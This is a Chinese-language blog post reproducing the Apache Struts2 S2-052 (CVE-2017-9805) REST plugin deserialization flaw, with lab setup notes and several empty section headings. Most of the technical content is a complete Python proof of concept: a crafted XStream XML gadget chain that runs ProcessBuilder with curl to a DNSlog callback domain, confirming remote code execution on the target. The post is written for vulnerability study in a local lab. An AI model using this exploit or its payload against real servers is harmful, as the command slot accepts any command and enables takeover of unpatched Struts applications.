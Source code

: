 Title:Struts2漏洞S2-052 (CVE-2017-9805)复现实践：REST插件远程执行命令漏洞
Date: 2017-09-22 10:20
Category: 漏洞实践
Tags: 漏洞,java,反序列化,struts2,S2-052
Slug: 
Authors: bit4
Summary: 



## 漏洞概述

Struts2 REST 插件使用带有 XStream 程序的 XStream Handler 进行未经任何代码过滤的反序列化操作，这可能在反序列化XML payloads时导致远程代码执行。任意攻击者都可以构造恶意的XML内容提升权限。

给自己补基础： Struts2 是一个基于 MVC 设计模式的Web应用框架，它本质上相当于一个servlet，在 MVC 设计模式中，Struts2 作为控制器(Controller)来建立模型与视图的数据交互。Struts2 是世界上最流行的 Java Web 服务器框架之一。

影响范围：

Apache Struts 2.1.2 - Struts 2.3.34

Apache Struts 2.5 - Struts 2.5.12

### 0x0、环境搭建

<https://github.com/apache/struts/archive/STRUTS_2_5_12.zip>

https://archive.apache.org/dist/struts/2.5/struts-2.5-all.zip

部署方法有2种：

1.是源码部署，需要编译，可以直接使用[VulApps](https://github.com/Medicean/VulApps)中的环境

https://github.com/Medicean/VulApps/tree/master/s/struts2/s2-052

2.是war包部署，windows下也比较方便

使用jspstudy 将struts2-rest-showcase.war 放到tomcat/webapps的目录下，然后启动jspstudy.

http://127.0.0.1:8081/struts2-rest-showcase/orders.xhtml

![env_setup](img/S2-052/env_setup.png)



### 0x1、漏洞的发现思路

漏洞发现者在他的文章中进行了说明：https://lgtm.com/blog/apache_struts_CVE-2017-9805

如何查看调用栈，如何审计或者挖掘这类漏洞





### 0x2、漏洞的关键点

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

import urlparse
import requests
import sys
from DNSlog import DNSlog
'''
漏洞名称：Struts2漏洞S2-052 (CVE-2017-9805)
实验环境：VulApps/s/struts2/s2-052
参考链接：
测试状态：成功

'''
def detect(url,data,header):
    try:
        req = requests.post(url, data=data, verify=False, timeout=3, headers=header)
        #print req.content
        req.close()
    except Exception as e:
        print e

def poc(url):
    post_data=r'''<map>
<entry>
     <jdk.nashorn.internal.objects.NativeString>
       <flags>0</flags>
       <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
         <dataHandler>
           <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
             <is class="javax.crypto.CipherInputStream">
               <cipher class="javax.crypto.NullCipher">
                 <initialized>false</initialized>
                 <opmode>0</opmode>
                 <serviceIterator class="javax.imageio.spi.FilterIterator">
                   <iter class="javax.imageio.spi.FilterIterator">
                     <iter class="java.util.Collections$EmptyIterator"/>
                     <next class="java.lang.ProcessBuilder">
                       <command>
<string>curl</string>
<string>{0}</string>
                       </command>
                       <redirectErrorStream>false</redirectErrorStream>
                     </next>
                   </iter>
                   <filter class="javax.imageio.ImageIO$ContainsFilter">
                     <method>
                       <class>java.lang.ProcessBuilder</class>
                       <name>start</name>
                       <parameter-types/>
                     </method>
                     <name>foo</name>
                   </filter>
                   <next class="string">foo</next>
                 </serviceIterator>
                 <lock/>
               </cipher>
               <input class="java.lang.ProcessBuilder$NullInputStream"/>
               <ibuffer/>
               <done>false</done>
               <ostart>0</ostart>
               <ofinish>0</ofinish>
               <closed>false</closed>
             </is>
             <consumed>false</consumed>
           </dataSource>
           <transferFlavors/>
         </dataHandler>
         <dataLen>0</dataLen>
       </value>
     </jdk.nashorn.internal.objects.NativeString>
     <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
   </entry>
   <entry>
     <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
     <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
   </entry>
 </map>
'''
    header = {'Content-Type': 'application/xml', 'charset': 'UTF-8'}

    x = urlparse.urlparse(url)
    scheme = x.scheme
    hostname = x.hostname
    port = x.port
    netloc = x.netloc  # netloc = hostname:port
    subdomain= "{0}.{1}".format(port,hostname)

    dnslog = DNSlog(subdomain)
    #dnslog.login("username","password")
    payload = dnslog.gen_payload_domain()
    data = post_data.format(payload)

    dnslog.delete(subdomain)
    detect(url,data,header)
    return dnslog.query(subdomain)

if __name__ == "__main__":
    url= "http://127.0.0.1:8081/struts2-rest-showcase/orders/3/edit"
    print poc(sys.argv[1])

```

DNSlog类的实现代码，请参见[这里](https://github.com/bit4woo/code2sec.com/blob/master/DNSlog%E7%9A%84%E6%94%B9%E9%80%A0%E5%92%8C%E8%87%AA%E5%8A%A8%E5%8C%96%E8%B0%83%E7%94%A8.md)





poc构造的关键点

从xml到代码执行





参考：

https://lgtm.com/blog/apache_struts_CVE-2017-9805 漏洞发现过程，漏洞发现者的文章

http://xxlegend.com/2017/09/06/S2-052%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%8F%8A%E5%AE%98%E6%96%B9%E7%BC%93%E8%A7%A3%E6%8E%AA%E6%96%BD%E6%97%A0%E6%95%88%E9%AA%8C%E8%AF%81/  廖新喜的分析，包含实验环境搭建

<https://github.com/mbechler/marshalsec> poc生成工具

http://www.freebuf.com/vuls/147170.html 调用栈分析